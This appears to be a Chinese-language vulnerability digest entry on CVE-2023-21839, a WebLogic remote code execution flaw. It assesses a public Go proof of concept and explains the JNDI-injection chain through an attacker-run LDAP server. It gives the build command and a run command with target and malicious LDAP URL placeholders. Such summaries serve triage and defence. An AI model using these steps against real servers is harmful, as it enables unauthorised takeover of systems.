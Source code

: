 ## CVE-2023-21839-Oracle WebLogic Server-RCE

**漏洞编号:** CVE-2023-21839

**漏洞类型:** 远程代码执行

**影响应用:** Oracle WebLogic Server

**危害等级:** 高危，允许未授权的攻击者通过网络访问执行任意代码

**影响版本:** 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0

**利用条件:** 需要目标WebLogic Server监听T3或IIOP协议，且攻击者能够通过网络访问这些端口

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-21839是Oracle WebLogic Server中的一个远程代码执行漏洞，存在于Core组件中。未经身份验证的攻击者可以通过T3或IIOP协议利用此漏洞，从而获取对WebLogic Server的未授权访问，可能导致敏感数据泄露或完全控制目标系统。漏洞利用代码通过构造特定的GIOP消息，绕过身份验证，并利用JNDI注入执行任意代码。 

**有效性：**根据漏洞描述和利用代码分析，提供的POC代码是有效的。搜索引擎结果也表明该漏洞已被广泛研究和利用。

**投毒风险：**分析POC代码内容，主要的代码是构造GIOP协议数据包进行漏洞利用。其中最关键的是让目标weblogic服务器去连接攻击者指定的ldap服务器，存在ldap服务器投毒的风险。整体代码结构相对简单，未发现明显的恶意代码。`go.mod` 文件声明了模块名称和go版本，未发现异常。`constant.go`定义了一些常量，主要和GIOP协议相关，也无异常。投毒风险评估为10%，主要来自引用的外部JNDI服务。

**利用方式：**

1.  **协议利用：** 漏洞利用通过T3或IIOP协议发送特制的GIOP（General Inter-ORB Protocol）消息。
2.  **绕过认证：**  漏洞允许未经身份验证的攻击者利用，表明存在身份验证绕过。
3.  **JNDI注入：**  攻击者通过JNDI（Java Naming and Directory Interface）注入执行远程代码。攻击者搭建一个恶意的LDAP服务器，当WebLogic Server尝试从该服务器检索对象时，会执行攻击者控制的代码。
4.  **RCE：** 成功利用漏洞后，攻击者可以在受影响的WebLogic Server上执行任意代码。
5.  **Go语言实现:** POC使用Go语言编写，直接通过Socket进行协议构造，无需Java依赖。
6.  **NAT穿透:** POC声称解决了IIOP的NAT网络问题，使得在Docker和公网目标上进行测试成为可能。

**使用方法：**

1.  编译Go代码：`go build -o CVE-2023-21839`
2.  运行编译后的程序：`./CVE-2023-21839 -ip <target_ip> -port <target_port> -ldap <ldap_url>`，其中`<target_ip>`是目标WebLogic Server的IP地址，`<target_port>`是T3或IIOP端口（通常是7001），`<ldap_url>`是攻击者搭建的恶意LDAP服务器的URL。

**项目地址:** [ASkyeye/CVE-2023-21839](https://github.com/ASkyeye/CVE-2023-21839)

**漏洞详情:** [CVE-2023-21839](https://nvd.nist.gov/vuln/detail/CVE-2023-21839)